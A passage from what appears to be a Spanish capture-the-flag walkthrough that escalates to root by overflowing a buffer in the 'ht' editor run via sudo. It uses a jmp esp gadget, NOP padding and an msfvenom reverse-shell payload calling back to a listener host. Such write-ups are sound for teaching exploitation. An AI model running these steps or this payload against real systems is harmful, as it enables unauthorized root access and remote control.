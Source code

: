 ![](https://lh3.googleusercontent.com/TLAeZwfplS1X8M_uwZDFvXnZMGMteRgE5f1EddUDGPMtItYqyCFG-iXqZFJinBf4nJvjuEgho-KtO8V9rAQEHz5S0_X-bB79J0TGI3Xu7lMJdd2EkyXlwOvmzeNXQ6xQrbLGPShQ)

El 42 en hexadecimal corresponde a una B.

![](https://lh4.googleusercontent.com/CEeEKcvhc3lmhJfThm-T6GBGkRzxTuHa2zPDqqAjBgOu_l3LsBbLhfQENzOg5ImWDzarfyjxjGJLPqeubv6PLcVPuZg88zKUzCUGdI4zdS_Ae_f8KphhxxVKC6Zh4onjSFayi_J2)

El siguiente paso es buscar una función salto al esp para que logremos ejecutar nuestra reverse shell, para ello podemos utilizar jmpbuster.

[https://github.com/crowell/jmpbuster](https://github.com/crowell/jmpbuster)

  
  
  
  
  

Rápidamente descargo el repositorio, lo paso a la máquina y lo compilo. ![](https://lh5.googleusercontent.com/KSa5q7J0RCPNcqNwSVKIcVbx3no85WOu57zTgBCHZGeuAYmX8E3yXpEMh4gVy6L84dS9_tQo2W5TfdKcrXVM3icvpqdlDh1jZ8ecTumEyd7Ee4ECMUiGCl06jsDIfagmjrVpialz)

Ejecutó el jmpbuster y busco la primera función de salto al esp.

  

```console
$ ./jmpbuster /usr/local/bin/ht | more
```

![](https://lh3.googleusercontent.com/l070JMKhpRlq3yqVpOPXax8769TKWPP71O9GOudNeYNBKphT3xNn30d_ZG-ExP-JRN6NIH1flMDwerzAY6c0J9-8YVCsitpP2KkyIXKDoV3uW4-FlcGHpNbXu_yHepzAhijihMVN)

Rápidamente lo meto en mi script utilizando el paquete struct de python para poder ponerlo en formato little endian.

![](https://lh4.googleusercontent.com/A85pgIW1RVY-zOyZY3efiVniF4s5f9RwLfIBG4t0B_ZpQG6PkJzGitOOFyw04hqBtqNu2_epfJ_ASuD3cDoMO_9lyeP44Jd1K8hR1iYwJ1Tc6mn-OqQ0PQlhZ_d-tNr8p1XSl459)

Ahora colocare algunos nops que me servirán para meter algo de relleno.

![](https://lh4.googleusercontent.com/qjM2NZddJRNPuMEsBVy5A11dfoIqoBXQE_oIvptCwxLrWGNiDtLxQNPWOlEZPK8NQF6RNzxErA3iU3rGdjLjKcLUy8f9LBi24hF7pJeCiBlmFOWWEWpEizBXVBz0PWG3l00HZaq5)

Ahora si vamos a generar nuestra shellcode utilizando python.

  

```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=443 -a x86 --platform Linux -e x86/shikata_ga_nai -f python -v shellcode
```

![](https://lh6.googleusercontent.com/Dohrr-IXIockfjTjz3fEzKyRVyaqdB-kQ7EzCRMToC-FgSjpDdpM9hK3APXG_-vB2ElMiAvItRtVPKsgPSDuuwA7dJTYcNE-TM-0a_MZhWsAS1OEzzouuThpUrKQxwgTmBVpPwVO)

  

El exploit final queda de la siguiente manera:

![](https://lh5.googleusercontent.com/HmW0uOuk49yTguSKxQJo8RkD6QFClrrBu1uU_CSZIhMix721qb9aFQARKjTT3W6lu3Z2CPO22XW0sIPs3el0CcCvdu7Q3YzF-zvBbtViUWJeavnfn536EFfDKz0puodNdq9s5DTI)

Por último lo ejecuto y obtenemos root.

```console
$ sudo ht $(python exploit.py)
```
![](https://lh6.googleusercontent.com/-nh6eVAtScJV8q00VrAtZHyBhg3GVuvme4EuoTiBIM4uE_f2aSGcm9PKgV3694XbRjtLG-bYYg0O-PBhe6GqRgG13SY1BUbHPhrdrsN-WfFsoP20TjvqcmCc7xaQ9UFiALNDTSVm)
¡¡Somos Root!!
